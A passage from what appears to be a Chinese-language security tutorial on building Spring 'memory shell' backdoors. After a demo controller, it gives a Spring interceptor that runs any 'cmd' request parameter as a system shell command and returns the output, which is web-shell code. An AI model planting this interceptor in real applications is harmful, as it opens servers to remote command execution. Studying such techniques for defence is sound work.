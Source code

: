 ![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-758200559b94ad1b4596ed8c7c7ed5ac5ae52eb9.png)

等待依赖解析完成：

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-848dedc8fca72d8cf4023b7d474296cd0868bd9a.png)

这里给我们准备了一个示例，我们可以直接跑起来：

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-44e491b7cfd3e0f11e9825600d0d939ac7a3d3a1.png)

### 2.10.1 编写一个简单的Spring Controller

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class TestController {
    @ResponseBody
    @RequestMapping("/")
    public String test(){
        return "hello world";
    }
}
```

非常地简单：

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-66b9b0d7e9ef51d68513eca617c5a933ca4a3a07.png)

### 2.10.2 编写一个简单的Spring Interceptor

`TestInterceptor.java`：

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
```